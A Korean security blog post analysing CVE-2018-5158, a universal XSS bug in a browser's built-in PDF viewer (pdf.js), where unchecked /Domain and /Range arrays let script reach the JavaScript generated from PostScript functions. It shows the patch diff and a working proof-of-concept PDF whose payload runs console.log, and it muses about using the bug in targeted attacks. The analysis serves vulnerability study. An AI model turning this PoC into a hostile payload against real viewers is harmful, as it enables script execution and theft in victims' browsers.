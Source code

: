 ```yaml
---
layout: post
title: "CVE-2018-5158 1-day Analysis"
excerpt: "PDF Viewer UXSS Trigger"
date: 2021-03-21
categories: [Web,CVE]
comments: false
---
```


<h3> 0x0. CVE-2018-5158</h3>


웹 익스텐션인 PDF뷰어(pdf.worker.js)를 통해서 트리거되는 UXSS 기법의 취약점

PDF뷰어에서 PostScript를 이용할 때, 인풋 파라미터 값을 어레이인지만 검증하고 직접적인 필터링을 하지 않음으로 발생

Safari 13.0.5와 Firefox 74.0 등등에서 작동



<h3> 0x1. 벡터</h3>


PDF Viewer는 PostScript Calculator 기능을 처리할 때,  자바스크립트로 변환하여 작업하는데 이때, PostScript 자체의 코드는 보안하지만 /Domain이나 /Range를 통해서 넘어오는 인풋값은 따로 검증하지 않음. 이를 통해서 PDF에 xss스크립트를 삽입하고 뷰어를 통하여 확인할 때 트리거 가능

```javascript
+      function toNumberArray(arr) {
+        if (!Array.isArray(arr)) {
+          return null;
+        }
+        var length = arr.length;
+        for (var i = 0; i < length; i++) {
+          if (typeof arr[i] !== 'number') {
+            var result = new Array(length);
+            for (var j = 0; j < length; j++) {
+              result[j] = +arr[j];
+            }
+            return result;
+          }
+        }
+        return arr;
+      }
       var PDFFunction = function PDFFunctionClosure() {
         var CONSTRUCT_SAMPLED = 0;
         var CONSTRUCT_INTERPOLATED = 2;
         var CONSTRUCT_STICHED = 3;
         var CONSTRUCT_POSTSCRIPT = 4;
         return {
           getSampleArray: function PDFFunction_getSampleArray(size, outputSize, bps, str) {
             var i, ii;
@@ -41747,43 +41763,43 @@
                 out[index] = [
                   arr[i],
                   arr[i + 1]
                 ];
                 ++index;
               }
               return out;
             }
-            var domain = dict.getArray('Domain');
-            var range = dict.getArray('Range');
+            var domain = toNumberArray(dict.getArray('Domain'));
+            var range = toNumberArray(dict.getArray('Range'));
             if (!domain || !range) {
               error('No domain or range');
             }
             var inputSize = domain.length / 2;
             var outputSize = range.length / 2;
             domain = toMultiArray(domain);
             range = toMultiArray(range);
-            var size = dict.get('Size');
+            var size = toNumberArray(dict.get('Size'));
             var bps = dict.get('BitsPerSample');
             var order = dict.get('Order') || 1;
             if (order !== 1) {
               // No description how cubic spline interpolation works in PDF32000:2008
               // As in poppler, ignoring order, linear interpolation may work as good
               info('No support for cubic spline interpolation: ' + order);
             }
-            var encode = dict.getArray('Encode');
+            var encode = toNumberArray(dict.getArray('Encode'));
             if (!encode) {
               encode = [];
               for (var i = 0; i < inputSize; ++i) {
-                encode.push(0);
-                encode.push(size[i] - 1);
-              }
-            }
-            encode = toMultiArray(encode);
-            var decode = dict.getArray('Decode');
+                encode.push([0, size[i] - 1]);
+              }
+            } else {
+              encode = toMultiArray(encode);
+            }
+            var decode = toNumberArray(dict.getArray('Decode'));
```

이를 근거로 배열에 페이로드를 첨부하여 사용자가 pdf 뷰어를 통해 이를 열람할 때 공격이 가능하다. 이건 diff라서 패치가 된 모습도 보여주는데 이전 - 버전을 보면 값에 대한 검증을 하지 않는 것 을 알 수 있다.



<h3>0x2. PoC</h3>


```javascript
/%PDF-1.4.1 0 obj.<<.  /FunctionType 4.  /Domain [(console.log("test")) 0].  /Range [0 0].  /Length 12.>>.stream.{.  0 add.}.endstream.endobj.2 0 obj.<<.  /Type /Catalog.  /Pages 3 0 R.>>.endobj.3 0 obj.<<.  /Type /Pages.  /Kids [6 0 R].  /Count 1.>>.endobj.4 0 obj.[ /Indexed.  [ /DeviceN.    [/Cyan /Black].    /DeviceCMYK.    1 0 R.  ].  1(123).].endobj.5 0 obj.<<.  /Type /XObject.  /Subtype /Image.  /Width 1.  /Height 1.  /ColorSpace 4 0 R.  /BitsPerComponent 8.  /Length 1.>>.stream.x.endstream.endobj.6 0 obj.<<.  /Type /Page.  /Parent 3 0 R.  /Resources.  <<.    /XObject << /Im5 5 0 R >>.  >>.  /MediaBox [0 0 100 100].  /Contents 7 0 R.>>.endobj.7 0 obj.<<.  /Length 100.>>.stream.  1  1  1  rg.  0  0  100 100 re  f.  BT.    /Para << /MCID 1 >>.    BDC.      /Im5 Do.    EMC.  ET.endstream.endobj.trailer.<<.  /Root 2 0 R.>>.startxref.%%EOF.
```

 이게 PoC.pdf의 hex내용이고 사실상 그냥 /Domain에 [(console.log("test")) 0]이다. 그 후에 조건 값을 맞춰주면서 트리거를 진행하면 된다.



<h3>0x3.ETC</h3>


추가적으로 PDF Viewer 는 CORS를 우회할 수 있는 방법이 많기 때문에 이를 더 연구해보면 좋을 것 같다. 또한 공격의 특성상 상대방이 해당 PDF파일을 열람을 해야만 공격이 가능해서 이를 연계하는 방법에 대해서도 구상이 필요하다.

이를 통해서 특정 타겟에 대한 xss 공격을 시행할 수 있어서 apt공격 같은 경우에도 사용이 될 것 같다. uxss사례들을 다양하게 공부해보면 좋을 것 같다.



<h3>0x4. Reference</h3>


https://nvd.nist.gov/vuln/detail/CVE-2018-5158
